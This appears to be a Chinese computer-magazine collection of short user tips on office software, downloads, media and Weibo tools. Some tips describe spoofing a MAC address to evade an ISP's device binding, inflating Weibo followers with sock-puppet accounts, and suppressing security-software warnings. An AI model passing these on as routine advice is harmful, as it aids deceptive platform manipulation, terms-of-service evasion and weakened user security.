请出开机助手软件wakeuponstandby (www.dennisbabkin.com)，它可以把计算机从待机或者休眠状态下唤醒，唤醒时间可以根据下班时间灵活确定，打开软件后修改第一项指定时间唤醒计算机，如果需要每天重复执行就选中第四项中的All选项，第三项勾选shut-down就可以完成关机任务。为了防止晚上加班出现“被软件关机”，可以设定关机前的提示时间Wait for为5秒，这样就可以取消关机了。
软件关机后，显示器和电源进入待机状态，还是有一定的电能和设备消耗，要督促大家主动关机，可以使用小螺命令行发送邮件工具 (http://sq.newhua.com/soft/62223.htm) 来配合。选中开机助手软件的第二项（开机后执行程序或者命令），执行小螺命令行发送邮件工具命令，让其开机后向单位的指定邮箱发邮件。如果隔一段时间考核一下，嘿嘿，大家肯定都能记得关机了。
（文/赵建超）

## 一键收藏网页到有道笔记

看到有趣的网页总想将其收藏起来，待空闲时再仔细阅读，不过收藏夹越来越大，常发生网页链接失效导致收藏夹保存的网页无法显示的尴尬。只要拥有网易系列的邮箱，即可使用有道提供的网页剪报功能，将网页信息一键抓取保存至有道笔记。
在浏览器中访问http://note.youdao.com/webclipper.html，按照提示将其添加到收藏夹。如果你使用的是IE8/IE9，那么可以考虑将其添加到收藏夹栏，这样使用起来就更方便了。
遇到需要保存的网页，只要从收藏夹中选择“收藏到有道笔记”，或者单击收藏夹栏的“收藏到有道笔记”，用网易系列的邮箱进行登录，确认之后即可将当前网页的信息一键抓取保存至有道笔记（该功能实际上是一段JavaScript代码）。
以后只要访问有道笔记的网页版本 (http://note.youdao.com/)，就可以随时随地查看收藏在有道笔记的相关网页，还可以对其内容进行二次编辑。
（文/王志军）

## 快捷键令幻灯片 切换更方便

最近，我应邀开设一个关于创新思维的讲座，在用PowerPoint播放讲座文稿的过程中，常常会有学员提出与当前幻灯片内容不太相关的问题，需要进行临时的交流互动，右击鼠标选择“结束放映”虽然可以立即退出放映，但在笔记本电脑上，如果不外接鼠标，操作并不是很方便。因此，我喜欢直接按键盘左上角的Esc键，退出当前的放映，再次播放时只需按Shift+F5组合键，从当前的幻灯片开始播放即可。
其实，在幻灯片播放的过程中，如果要临时中断一下，还可以直接按一下键盘上的B键（Black，黑屏）或W键（White，白屏），临时显示一个空白的黑色或白色页面，再按任意键又可以返回到原来播放的页面，而不需要结束当前放映。
使用键盘上的快捷键，除了临时显示黑屏白屏之外，还可以快速切换绘图笔、橡皮擦等功能，熟练使用这些快捷键，不但可以提高自己的工作效率，还可以让我们的电脑操作显得更加专业。
（文/姚文连）

## 优酷反屏蔽广告还需道高一尺

楼下的夏敏跑上来找我“算账”，之前通过修改hosts文件帮他屏蔽的优酷视频网站的广告最近又出来了，给他和女朋友看连续剧带来很多不便……优酷网最近更新了Flash播放器，其中最重要的更新就是引入了反屏蔽广告机制。
如果安装了屏蔽广告的扩展、脚本、hosts修改或者其他屏蔽广告的工具，优酷播放视频前会提示播放出错。
所以之前修改hosts的方法对优酷还是有黑色30秒的等待时间，这里提供一种方法（原来的hosts文件已经修改了，当然我保持不动）。
打开优酷，随便播放一个视频，待广告提示后关掉浏览器。打开文件夹 C:\Documents and Settings\你的当前用户\Application Data\Macromedia\Flash Player\#SharedObjects\Q6TU75SP（这个文件夹随机的，Windows 7系统的位置在C:\Users\你的当前用户\AppData\Roaming\Macromedia\Flash Player\#SharedObjects），看到static.youku.com的文件夹没有？删掉这个文件夹。新建一个文本文件，把名字改为static.youku.com，然后去掉文本的后缀.txt，并把该文件设为只读（右击该文件选择“属性”，勾选“只读”）。好了，现在看优酷网视频自在多了，讨厌的广告没了。
（文/下屿中学 行云流水）

## 下载工具篇

小颖总是既喜欢Chrome又很不喜欢它。喜的是其风速般的网页打开速度，不喜的则是其猪行般的文件下载速度。在点击可以下载的文件时，Chrome总是用自己来下载。一个小文件还可以忍受，可当你看见一个几GB的大文件“惨死”在Chrome下时，你是不是有一种想爆发的感觉呢？本文就让此悲剧不再！

### 迅雷篇

新版的迅雷7已经支持Chrome的下载了（只是迷你迅雷还不可以），具体的设置方法是点击上面的“工具→浏览器支持→添加Chrome支持”。如果遇到要下载的东西时，直接点击（或者右键选择“使用迅雷下载”）就可以了。

### QQ旋风篇

在常规设置中点击设置所有浏览器，然后选上“Chrome浏览器”，应用即可。

### 快车篇

目前的下载工具都支持Chrome了，但是就是快车落后了一点，没有办法了吗？有的！已经有高手发布了让Chrome支持快车的插件（下载地址：http://tinyurl.com/699qr4w），目前支持的有快车、迷你快车、迅雷、迅雷精简版、QQ旋风、电驴、比特彗星等。

经过这么一番改造，Chrome变得更好使了！ (文/彭家进)

## 巧修视频 PPT课件更出彩

视频一直是课件制作中不可或缺的元素，PowerPoint课件也不例外。那么如何让课件中的视频更加出彩、更加实用呢？本文就为大家介绍相关秘招，相信会给您的课件增色不少。

### 去其糟粕 取其精华

课件中用视频并不是全盘照搬，在PowerPoint 2010中可以对导入的视频进行裁剪分割，去其糟粕，取其精华。

- 切换到“插入”标签，通过“视频→文件中的视频”选择视频后单击“插入”按钮，将视频添加到课件中。右击视频选择“剪裁视频”，在出现的对话框中拖动滚动条，设置所需视频片段的开始时间和结束时间。如果要精确剪裁视频，可在开始时间和结束时间中直接设置具体的时间。
- 如果视频画面中有不需要的部分，如黑色边框，也可以进行裁剪，不过这种裁剪只能从四周向中间裁剪。切换到“格式”标签，选中视频，单击“裁剪”按钮，此时视频周围会出现黑色边框，拖动黑色边框即可修改视频的高度和宽度，将边缘不需要的部分裁剪掉。

### 奇特外观 吸引眼球

一般情况下，导入后视频的边框是矩形，比较呆板，其实可以改变视频的外观，让其边框个性化，吸引观众的注意。

- 切换到“格式”标签，选中视频，单击“视频形状”按钮，可以选择这些特殊图形作为视频的边框，此时视频的边框就会成为相应的图形，拖动边框上的黄色小矩形可以调整边框的形状。
- 选中视频后，在“视频边框”下可以改变边框的线型、颜色、宽度等，在“视频效果”下可以给视频加上阴影、发光等效果。单击“更正”按钮，可修改视频的亮度和对比度；选择“视频更正选项”，可手动调节亮度和对比度；单击“颜色”按钮，可以改变视频的色调；单击“标牌框架”按钮，可以选择一张图片作为视频的封面，这样播放视频前，静止视频首帧画面就是该图片。

> 有时给视频加上特殊形状后，在播放演示文稿时，视频还是原来的矩形，这是什么原因呢？其实这主要是视频格式带来的问题，笔者经过测试发现，只要将视频转换成wmv格式，那么就不会存在这种问题。

### 添加书签 自由点播

有时课件中的一段视频，可能需要分段并重复播放，如果将视频分成多个小片段导入到课件中，又不是太方便。这时可以给视频添加书签，播放时单击书签即可自由点播。

切换到“播放”标签，选中视频并播放到需要的位置，单击“添加书签”按钮即可，通过这种方法可以添加多个书签，这样在放映幻灯片时，只要将光标指向播放进度条上，即可看到添加的书签，单击书签即可点播，非常方便。

> 在“淡化持续时间”中，还可以给视频添加淡入淡出播放效果，单击“音量”按钮可以修改视频中的音量，在这里还可以设置视频自动播放或单击时播放。

(文/许小雨周建峰)

## 方便的打印预览按钮哪里去了

近来将Office升级到2010版本，在使用Excel 2010时，发现在选项卡和“快速访问工具栏”都没有了以前在Excel 2007中经常使用的“打印预览”按钮，无法调出打印预览界面，使用起来很不方便。

自己动手添加时，在“自定义快速访问工具栏”菜单中只发现了“快速打印”和“打印预览和打印”项，将“打印预览和打印”添加上后，点击该按钮，却进入到了Excel 2010的打印设置和预览界面，在该界面下只能通过自定义边距的方式来调整页面边距，却不能使用拖曳边距线的方式快速调整，这很不直观也不方便。而进入Excel选项中的“自定义快速访问工具栏”，在“常用命令”命令列表中同样没有找到“打印预览”按钮，难道说Excel 2010取消了这一功能吗？

- 最后经过细心查找试用，发现“打印预览”按钮被放到了“不在功能区中的命令”列表中，同时更名为“全屏打印预览”，于是在该列表选中它，点击“添加”按钮，将其添加到“快速访问工具栏”中，这下使用起来就方便多了。
- 需要时点击该按钮，进入到“打印预览”界面，勾选“显示边距”项，就可以方便地改变纸张边距了，同时点击“页面设置”按钮，可快速设置页面参数，点击“打印”按钮实现快速打印。

> 此法同样适合在Word 2010中快速找出“打印预览”按钮，有这方面需要的朋友可以用同样的方法，调出这个“全屏打印预览”按钮，方便操作！

(文/烟锅)

## 偷梁换柱 没绑定的电脑也能上网

最近家里更换了电信运营商，网速比之前有了很大提升，窃喜之余问题也接踵而至：只能用A电脑联网，将网线用在B电脑上却不行。打电话问客服被告知账号已经绑定，只能用在当时开通网络的A电脑上，如果想更换电脑则需要去营业厅解除绑定，这样一来，定要花费不少时间，于是我决定将自己的B电脑模拟成A电脑。

运营商是如何知道我所用的电脑是否是绑定的那台呢？问题应该在网卡上面。由于网卡的MAC地址具有唯一性，很大可能是运营商通过网卡的MAC来识别机器。既然这样，那把自己的B电脑的MAC地址改成和A电脑一样不就行了。修改MAC地址可以通过重新烧录硬件的方法实现，不过此方法难度较大，风险很高，而用软件修改的方法简单而没有风险，且效果相同，因此我试着用软件方法实现，以Windows 7为例。

- 首先查看A电脑的MAC地址，点击“开始→运行”，输入“cmd”打开命令提示符，输入“ipconfig /all”，找到“物理地址”（Physical Address），右侧的那组数字就是本机的MAC地址，将其记录下来。
- 在B电脑上的“设备管理器”中找到网卡，右键单击网卡，选择“属性”，在弹出的窗口中切换到“高级”选项，在其中找到“网络地址”项（或者Network Address等，不同网卡显示可能不同），在右侧“值”的下方输入前面查询到的MAC地址（注意要连续输入，不要有空格），重启电脑即可生效。
- 这样，B电脑成功变身A电脑，两台电脑都可以上网了，省去了跑营业厅的时间。如果想将B电脑恢复原来的MAC地址，只需在“值”的下方选择“不存在”，重启电脑即可恢复。
- 其实还有个更快捷的方法，在“设备管理器”中找到网卡，右键点击网卡，选择“禁用”，在弹出的窗口中选择“是”，再次右键点击网卡，选择“启用”，这样不用重启电脑就可以立即生效了。

> 关于MAC地址，是网卡在制作过程中，厂家会在它的EPROM里面烧录上一组数字，这组数字，每张网卡都不相同，这就是网卡的MAC地址，由于它具有唯一性，通常用它来识别网络中用户的身份。

> 我遇到的这种情况是在北京歌华宽带出现的，如果不按照文中提到的方法进行改变，则会提示错误（代号为691），远程计算机阻止连接，即使使用正确的用户名和密码进行宽带连接也没用。另外在某些高校上网时也会出现此问题，网管绑定了电脑的MAC地址，用同样的用户名和密码在非绑定计算机上就无法上网，这种情况只能自行修改MAC地址，或者通知网管解除绑定，之后重新绑定，不过后者太麻烦，而且时间较长。

(文/前尘忆梦)

# 函数代表我的心

x²+y²-ax=a*sqrt(x²+y²) 是著名的心形线的直角坐标式，利用Excel可以轻松绘制。在情人节或七夕节来临的时候，告别以往的巧克力玫瑰，在浪漫的日子给你心爱的TA送上一份浓浓的特别的心意吧。

## 原版心形线

- 选中所有单元格，在“格式→列→列宽”修改列宽为2.5。
- 在B1、C1分别输入-2、-1.95，自动填充至2；在A2、A3分别输入-0.5、-0.45，自动填充至2.5（建立直角坐标）。
- 在B2输入公式 `B$1^2+$A2^2-$A2*SQRT(B$1^2+$A2^2)`，自动填充至上述所有单元格。
- 选择上述单元格，“格式→条件格式”在弹出对话框中进行设置，“单元格数值→介于→-0.02—0.02”，该对话框中“格式→图案”选择红色并确定。

## 改进版心形线

- 上式为标准的心形线函数，但是离标准心形还是有一定的差距，我们对函数进行一些改进以求完美。
- 同样修改列宽至2.5，在B1、C1分别输入-4.9、-4.8，自动填充至5；在A2、A3分别输入5、4.9，自动填充至-5。
- 在B2输入公式 `17*B$1^2-16*$A2*ABS(B$1)+17*$A2^2-225`，自动填充至上述所有单元格。
- 如果觉得单元格中的数字破坏效果，还可以继续进行美化。首先选中所有单元格，“格式→单元格→字体→颜色”，设置为白色，“格式→单元格→字体→图案”，设置为白色。
- 选择上述单元格，“格式→条件格式”在弹出对话框中按下图设置，“单元格数值→介于→-9—9”，该对话框中“格式→图案”选择红色，“格式→字体”选中红色并确定。

(文/李江江)

# 增加微博粉丝 速度嗖嗖嗖的

全民微博的时代，媒体、公司、名人、草根们都在用微博，很多人刚开始玩微博都是采用互粉的手段来增加粉丝，这种方法短期内可行，但后期就会遇到很多瓶颈。对于没有任何资源、资金的草根们，如何更快、更轻松地增加粉丝呢？

以新浪微博为例，所需要的工具是基于谷歌浏览器的微博推进器 (http://www.wbturbo.com/download/index)。

- ①注意不是下载到本地安装，点击最新版的链接，浏览器下方会出现安装提示，点击“继续→安装”即可。然后点击浏览器右上角微博推进器按钮并登录，点击“申领辅助账户→免费申领10个辅助账户”。
- ②申领成功后再次点击右上角的按钮选择“申领辅助”，按照提示填好昵称、位置、性别等内容，点击“开始申领”，然后输入验证码和上传头像，完成后回到个人中心“创建任务→发微博”，为每个账号发第一条微博。
- ③辅助账户都准备好了，点击“绑定主账户”输入你要增加粉丝的微博地址、用户名、昵称等信息进行添加主账户操作。最后，点击微博推进器按钮下的“开始”，OK！只要挂着，粉丝就会不断地增加了！

> 小提示：
> 默认只能申领10个辅助账户，大家可以自己注册并激活微博账号，然后到个人中心的辅助账户中添加，总共能添加50个账号，这样增加粉丝就更快了！如果想让自己发的微博有更多的展示机会，可以使用创建任务中的共享转发和自我转发功能。

(文/杨志鑫)

# 不费流量收藏QQ音乐

高考后家里为我配备了上网本，随后我在淘宝网购买了全年的联通3G上网卡。可是在使用本本上网听QQ音乐时，遇到喜欢的音乐想下载收藏时却有些头疼，原因就是大家都知道的流量！那么我们在听音乐时怎么才能节约流量并且下载音乐呢？

我想到一个方法，就是利用QQ音乐在线播放各种音乐时必然会联网下载相关资源，把之前下载的资源找出来就可以免去之后想听时的下载了。

## 利用 QQ 音乐的缓存文件

QQ音乐的缓存在C:\Documents and Settings\Administrator\Application Data\Tencent\QQMusic\Cache\musiccache文件夹中。

点开此文件夹后会看到很多有着混乱命名的子文件夹，点开任意一个，找到文件夹中体积最大的格式为TDL的文件，这就是我们所需要的音频文件，依次提取每个TDL文件我们就可以得到所有曾经缓存过的音乐，再用格式工厂或千千静听转换成MP3格式就可以正常使用了。

## 用 QQ 音乐缓存提取工具

以上方法适合提取数量较少时使用，如果你面对茫茫的文件夹不知所措的话，那么推荐你使用QQMusicCollect，也就是QQ音乐缓存提取工具，下载地址：http://www.wxdown.net/Soft/download.asp?softid=23230&downid=9&id=23794

下载完成直接运行压缩包内的应用程序（请注意，该程序大小最多不超过24KB，过大的文件可能是绑定了木马程序），运行后需要先手动输入QQ音乐缓存目录，系统默认为C:\Documents and Settings\Administrator\Application Data\Tencent\QQMusic\Cache\，如果有不同的话请自行更改。

- ①下面我们可以根据需求设置提取文件保存目录，并自定义其读取标签重命名格式（输入格式为“%A - %T”，即“歌手-曲目”），下面关于提取后是否删除缓存，不建议删除，因为下次再听到此歌时QQ音乐将不会再下载缓存，可以节约不少流量。
- ②点“开始”进行转换，稍等片刻即可完成。得到转换为WMA格式的所有音频文件，就可以直接在本地脱机听音乐了，完全不用担心流量！

> 小提示：
> 通过提取缓存得到的音频文件基本上都是64Kbps位速的wma，音质往往达不到最好的要求，所以如果对音乐的音质有特别要求，最好还是自己上网下载高品质无损音乐吧。Qzone的缓存文件可以在QQmusic目录下的WhirlCache文件夹中找到。

(文/滕鸿伟)

# 有备无患 QQ群成员批量导出

上班刚一登录QQ，就提示我的“计算机技术交流群”解散了，我群里还有几个聊得很来的好友连QQ号码都丢失了，这让人很郁闷。这样的事情大家可能也经常碰到，有时会因各种原因自己的群突然解散，或者被管理员莫名踢出，而群里一些好友的QQ号码还没有保留。那么能不能事前把自己QQ群里的所有好友都批量导出来呢？“QQ群群成员导出工具”可以帮你一键导出群里所有好友的号码和昵称，做到有备无患。

该软件为绿色版，直接运行即可，先输入QQ账号、密码和验证码登录，可以与QQ同时登录一个账号。如果使用的不是Windows 7系统，则需要安装.Net FrameWork 2.0或以上版本，该软件才能正常运行。

- ①成功登录QQ账号后，它将自动检测其QQ群的数量，然后在“选择要查看的群”下拉菜单中选择想要导出的群，之后所有群成员列表将在下面的列表中全部显示出来，包括QQ号码、昵称等，其资料以群名片为准。
- ②然后单击“导出选项”下拉菜单选择导出方式，它提供了3种方式，只导出QQ号码，导出QQ号码和昵称，导出邮箱格式，一般选择第2种，选定后，单击“导出成员”按钮。
- ③在弹出的对话框中设置保存路径，然后输入生成文本文件的名称，如“QQ群好友导出.txt”，注意这里一定要输入TXT扩展名，保存后会提示导出成功。
- ④打开此文件，就可以看到导出的群中所有人的QQ号码和昵称。

(文/贺全荣)

# 微博网站推广 分享无处不在

作为网站管理人员或者使用微博的个人用户，当别人浏览页面和阅读你的博文时，如何让更多的人了解它们的存在，如何在最短的时间里推广它们呢？没有时间在论坛一个一个发帖赢取链接，没有资金雇佣大量的人员来推广它们，最好的办法就是在你的网站页面和微博中加入一个一个“分享”按钮。

当别人在网站和你的微博中看到好的文章、图片想共享到他的微博或空间时，只要点击你加入的“新浪微博”、“人人网”、“QQ空间”、“开心网”等按钮，马上在他的空间就能见到你的文章、图片，并且在文中自动加入共享资料的出处，比如@gsqy马甲（我的新浪微博），这样别人就成了自愿推广者。很快你的站点，微博就会被大多数人所熟知，人气飙升那是迟早的事了。

需要编写大量的代码吗？不必如此，只要登录到Jia This(http://www.jiathis.com)，选择菜单“代码获取→图标式”，单击“复制代码”，选择你所喜欢的按钮风格，打开预编辑的网页源文件或微博，在网页的<body>和</body>选项中间粘贴复制的代码，就OK！

这就是我在《电脑爱好者》网站自己添加的分享按钮，当然只是演示一下了。分享就是分享快乐，分享就是用最简单的方法提升自己的知名度。

(文/段晓东)

# 几何画板乱码巧解决

用几何画板5.01打开几何画板4.07制作的课件时发现所有文字出现乱码，起初以为系统字库太少，便搜来一堆字体装入系统中，结果如故，百思不得其解，遂不断尝试，终于找到了解决方案。慨叹之余，随手形成此文，与各位共享。

先按下Shift键，此时的“参数选项”就变为“高级参数选项”，在“高级参数选项”中的“系统”子菜单下勾选“对gsp3/4的语言支持”，显示即变正常了。

当几何画板工具箱出现乱码时，只要在“高级参数选项”中“系统”下的语言支持下拉列表选中“简体中文”，重新启动几何画板即可。

(文/邵新虎)

# 数码照片按拍照日期自动归类

朋友经常使用数码相机拍照，由于她使用的内存卡较大，很少能一次照满，又懒得一次向电脑传一次，就放在相机里，时间长了好几次的照片就存放到同一个文件夹中，有几天前甚至几个月前的照片，直到需要用的时候才把它们导入到电脑。
由于这些照片仍保存在同一文件夹中，查找起来很麻烦，一时很难分清楚哪些照片是哪天照的了。虽然可以使用电脑上的按日期排列来分检，但每次都需要手工创建日期文件夹，再移动对应日期的照片到其中，管理起来很不方便。
我给她推荐PhotoTool这款小工具，可以把一个文件夹及其子文件夹中的照片，自动按拍照日期批量整理到以拍照日期命名的不同文件夹中保存，她的烦恼一下子解决了。
首先将数码相机内存卡里的照片复制到电脑上，运行PhotoTool（XP系统需要Microsoft .NET Framework 2.0运行库的支持）。点击“原文件夹”指定需要整理的数码照片所在文件夹，勾选“处理子目录”，再点击“目标文件夹”并指定整理后的照片保存位置，在“照片分类方式”中点选“移动”，在“重名文件”中为了安全选择“重命名”，在“目录树样式”下拉列表中选择以日期命名的结构样式。
设置好后单击“开始整理”按钮，很快它就按拍照日期自动创建好文件夹，并把符合条件的照片保存到其中，将所有的数码照片整理好，方便管理。

**小提示：**
PhotoTool是基于照片的EXIF信息进行处理的，EXIF信息在照相时由数码相机自动生成。扫描的照片或用Photoshop等软件处理的照片因为EXIF信息会丢失，所以处理时会自动跳过这些照片。
PhotoTool下载地址：http://www.softbunny.net/upload/PhotosTool.rar
（文/王彦博）

# 图集变成屏保 配上音乐更好

把喜欢的酷图和靓照设为屏保图集，虽然可以欣赏，但却不能添加背景音乐，而使用专门的屏保制作软件SlideShow Builder v4.0（http://ishare.iask.sina.com.cn/f/12028327.html?from=like），可以轻松制作一个时尚动感的屏幕保护程序，不但便于配乐欣赏，而且更容易和朋友分享。
- ①安装运行该软件，选择“浏览”标签，在左侧的资源管理器中选择存放车模图片的文件夹，右侧的文件列表中就会显示该文件夹中的所有图片，拖动全选这些图片，单击“添加图片”按钮，就可以将它们添加到图片剪辑栏。
- ②单击“添加音乐”可以选择添加MP3、WAV和WMA格式的声音文件，单击“编辑音乐”可以对屏保音乐进行音量大小、淡入淡出、同步播放等设置，选择“效果”标签可以设置过渡、移动缩放等效果。
- ③右击剪辑栏中的图片，选择“时间设置”打开“延时设置”对话框，可以更改图片显示和过渡效果的延迟时间。如果不做任何设置，它会自动为所有图片设置随机的动态效果。
- ④选择“发布”标签，单击“生成屏保程序”打开“发布为屏保程序”对话框，选择“创建并安装屏保程序”项，确定后稍等片刻，屏保程序就制作完成并自动添加到当前系统的屏保程序列表当中了。
- ⑤如果选择“创建为可执行文件格式的屏保程序”项，则可以创建扩展名为exe的可执行屏保程序。
- ⑥发布完成之后，Windows 7会自动打开“屏幕保护程序设置”对话框，选择刚制作的屏保程序，如果安装了360安全卫士一类的软件，在你试图修改系统的屏保程序设置时，它会自动弹出警示框，选中“允许程序的所有操作”，“记住我的选择，以后不再提醒”，确定后就可以正常运行你自己制作的屏保程序了。
（文/姚文连）

# 小作坊也能作出天籁之音

如果我告诉你，一个不懂乐理、不会识谱、没有受过专门音乐训练的普通人能作出动听的歌曲，你一定会说这是天方夜谭。可是当你读完本文，就会相信这不是奇迹，说不定你也会跃跃欲试，也会生出音乐制作人的梦想，并成为一名功夫不俗的作曲大师呢。
首先要借助一种键盘乐器，如电子琴、钢琴等，它们的音阶排列比较直观，可以方便我们把音高准确记下来。人家音乐老师一边嘴里哼着一边就可直接把谱子写下来，而我就只能先把歌曲哼唱出来录到手机里，然后一边播放录音一边在电子琴上用不规则的手法弹奏，找到合适的音高后记录到纸上，最后在作曲大师里进行调整。

## 一、精心打磨巧作曲

作曲大师提供了简谱和五线谱两种作曲方式。我在上学的时候没有学过五线谱，在乐理知识这方面基本上算是个音盲，所以我选择了比较容易上手的简谱作曲方式。
- ①进入简谱作曲方式后，屏幕上会出现提示，我们可以在其中输入乐曲名、作曲和作词的作者名字，还可以单击“设定音色及节拍”来设置曲子的拍子和节拍速度。这些我们也可以先忽略不管，以后在菜单栏的“随心设置”中也可以重新修改。直接单击“确定”进入软件进行编辑。
- ②现在我们可以用鼠标或键盘录入音符了。因为我们在刚进入软件时没有选择多声部，所以现在是按照系统默认的单声部简谱编辑方式进行作曲。在录入音符时要随时注意软件底部状态栏的提示，看你本小节的时值是否达到标准。
- ③在录入音符的过程中如果需要进行错误修正，我们随时可以利用工具栏的动作按钮来撤销或恢复操作。在作曲过程中要注意随时试听曲子的效果，这样能及时发现错误，少走弯路。如果作曲时有要重复输入的小节，可以运用复制和粘贴的功能，省时省力！

**小提示：**
在进行复制操作时，一定要在需要复制的音节的头部和尾部分别单击一次才能完成复制，这一点和Word软件中的复制操作有明显的不同。

- ④不同的歌曲都有不同的曲调，这就需要我们在软件里面进行调号的选择了。调号的选择稍微麻烦点，如果不掌握要领的话，会老是停留在系统默认的C调上。单击工具栏中的“调性选择”按钮，会出现选择调性的操作选项。

**小提示：**
我曾把系统默认的C调改成了G调，可确定后回到主系统发现没有变化，仍然是默认的C调。原来，在改完调性回到主系统后，先不要退出“调性选择”，还需要在原来的调性旁边再单击一下鼠标，这样才最后完成操作。

- ⑤我们在作曲的时候还经常要用到圆滑音标记、延长音标记等。如果您的曲子不止一段，还要为曲子添加反复记号，曲子结束的时候不要忘记在最后的小节线末尾添加终止线。做完这些工作，我们的作曲工作就基本大功告成了！

**小提示：**
延长音的设置与圆滑音不同，需要在第一个音符的前面添加第一个标记，然后在下一个音符的后面再添加最后的标记。

## 二、精益求精写前奏

如果我们想要把曲子作得更生动些，就要在前奏上下点功夫了，这就要用到多声部的作曲方式了。在开始新曲之前，我们可以从刚才录入好的曲子中把前奏部分进行复制，然后粘贴到多声部中，再进行调整，这样可以节省录入音符的时间。
- ①单击“开心创作”，进行新曲创作，我们选择“四部含打击乐”选项，确定后就可以进行编辑了。
- ②因为免费版最多只能录入8行，而在我们现在进行的四声部作曲方式下，实际上就只能录入2行，我们可以删除系统默认的小节线，自己手动添加小节线，要保证在2行之内完成前奏的录入，录入完成后不要忘记加终止线，这样可以自动删除多余的小节。
- ③我们可以在“随心设置”里面分别为这四个声部设置不同的音色，这样就可以作出一个音色比较丰富、气势比较恢弘的前奏来，就好像一个乐队在亲自听我们的指挥调遣一样。怎么样，感觉很爽吧！
- ④请注意，一定要保证这四个声部都处于选中状态，另外，下拉列表中的音色要结合你的曲子的特色来进行选择，可以反复试听，再最终确定你的音色组合。

**小提示：**
虽然与需花费银子的正式版相比有很多功能受限制，作曲大师最新的免费版（http://www.zuoqu.com/）还是提供了宝贵的存盘和打印功能，还有比较实用的MIDI输出功能，这些完全可以满足我们普通音乐爱好者的使用要求了。
（文/黑龙江8511农场学校 刘曙光）

# 多微博账号不用忙 “发微”帮你解忧肠

许多人拥有不止一个微博，但往往精力不足，顾此失彼。如果你使用谷歌浏览器，利用插件“FaWave(发微)”同步各微博，便可以“微”震天下。
FaWave目前支持腾讯微博(qq)、新浪微博(sina)、搜狐微博(sohu)、饭否、做啥、嘀咕(digu)、人间网、雷猴、豆瓣、Google Buzz、网易微博(163)，可以批量发送图片，其“长微博”功能可以让你畅所欲言。
用谷歌浏览器进入 https://chrome.google.com/webstore/detail/aicelmbddfgmpieedjiggifabdpncnln，下载安装“FaWave(发微)”的扩展程序，重启浏览器后会在浏览器右上角看见一个新增的图标，但需要设置才能让你的微博出现在上面。
右键单击“fa”图标选择“选项”，切换到“账号设置”选项卡，单击“添加新用户”按钮，在“微博”一项中选择你使用的微博运营商，在“验证类型”中选“oAuth”项，如有不成功的可以换一种。点击“获取授权码”，在弹出的窗口中输入相应的微博账号和密码，点击“登录并授权”即可。如果你有多个账号，可以按如上方法炮制。
（文/Ranfon）

# 给复制移动文件请个加速专家

对下载狂人来说，最忧心的是网速有时不够给力。而下载完的高清电影和游戏的移动也是一个棘手的问题，这些文件动辄就是十几GB，拷贝时看着缓慢的进度条，你也许会发疯，不如请个加速专家TeraCopy (http://download.pchome.net/system/file/fileman/detail-16366.html)。

TeraCopy会直接替换Windows的复制移动功能（卸载时自动恢复）。当你需要复制或者移动大文件时，只要选择该文件，右击选择“TeraCopy”，在弹出的主界面点击“复制至”或“移动至”，点“浏览”选择合适的存储路径，确定即可。其移动复制文件的速度很快，本人测试移动11.5GB的文件，只需要约四分钟的时间。

在使用系统自带的复制移动功能或者其他工具时，经常会因为文件出错而导致移动失败。而用TeraCopy移动复制文件时若出错，它可忽略错误并继续执行剩余任务，完成后列出所有错误，你可以对照检查出这些错误，然后修正。

TeraCopy还支持暂停传输和断点续传功能，当遇到既有文件时，可选择“覆盖”或“更名”等，它还支持整合到右键菜单，可以与Total Commander等第三方资源管理软件相整合。

(文/清风慕缘)

# 巧妙删除所有空行

工作簿中如果有多个不连续空行，怎样快速删除？在Excel 2007中，选中所有行，一次单击“数据→筛选”，在第一行的第一个单元格中出现“筛选”按钮，单击该按钮，在“数字筛选”中勾选“空白”后，所有空行就被筛选出来了，然后删除。

但要提醒大家的是，这种方法会删除第一行，不管第一行是否有数据。因此我们在操作前可以在第一行之前插入一个空行，这样就没问题了。

(文/印少涛)

# RSS资源寻找 用上专业搜索引擎

和在网上闲逛相比，RSS阅读更能以分类的形式显示自己需要的内容，但是RSS feed资源很不好找。好在现在可以用上专业的搜索引擎了。

首先登录http://ctrlq.org/，在输入栏填写要搜索的RSS feed资源包含的关键字（如“软件资讯”），点击SEARCH，就会显示出很多包含此关键字的网站。把鼠标放在你感兴趣的网站下的“RSS Link”链接上，这时会弹出10个比较有名的RSS feed阅读网站，选择Google，在弹出的Google Reader登录界面进行登录后，就会自动添加该RSS feed资源到阅读器中。

除了使用关键字进行搜索以外，还可以输入网站名称来进行更加详细的搜索。

(文/清风慕缘)

# 单元格快速显示公式

在使用Excel处理数据时，我们要查看某些单元格数据的计算公式，单击单元格即可看到，但是——单击单元格太麻烦，有什么办法可以直接让所有单元格显示公式？

在Excel 2003中，依次单击“工具→选项→视图”，在“窗口选项”下勾选“公式”，再单击“确定”。在Excel 2007中更简单，一次单击“公式→显示公式”即可。

(文/印少涛)

# 共享邻居资源 超简单

放假在家闲得发慌，除了上网聊天就是看电影电视剧，但资源有限，于是与同楼道的哥们商量着互相交换资源，可共享设置很麻烦，尝试了几次总是连接不成功，难道只能用大容量的U盘拷来拷去？其实，利用7.2系列新版本的迅雷，可以很方便地共享邻居资源。

运行迅雷7，在主界面中单击“+”号按钮添加新的标签页，进入“我的应用”页面，单击“添加更多的应用”进入“应用市场”，找到“迅雷邻居”，按照提示完成添加。初次使用时会提示设置共享文件夹，如果使用的是Windows 7，同时还会自动创建一个名为“迅雷邻居共享”的库，因此也可以在库窗口管理迅雷邻居共享资源。

打开“迅雷邻居”，所有邻居的共享资源都清楚地显示在这里，离线邻居的图标显示为灰色，单击展开之后可以逐一查看相应的共享资源，右击即可下载自己感兴趣的资源。当然邻居们也可以按照同样的方法下载你共享出去的资源。

注意千万不要将隐私文件放到自己的共享文件夹，否则后果自负！

(文/长江边上)

# 巧查内网IP 从此不再冲突

单位的电脑使用局域网方式上网，近来又增加了一批电脑，由于是采用固定IP方式，电脑数量较多的情况下，想获得一个空闲IP不是件容易的事，设置很容易出现IP冲突的现象。为这些新增电脑设置IP时，就得一个个测试，直到找出可用的IP，这也太费时费力了。最后用IPSeizer这款软件(下载地址：http://dl.dbank.com/c0u0o556vw#)，自动检测出已被占用的IP，从而可快速确定可用的地址，快速完成IP的设置。

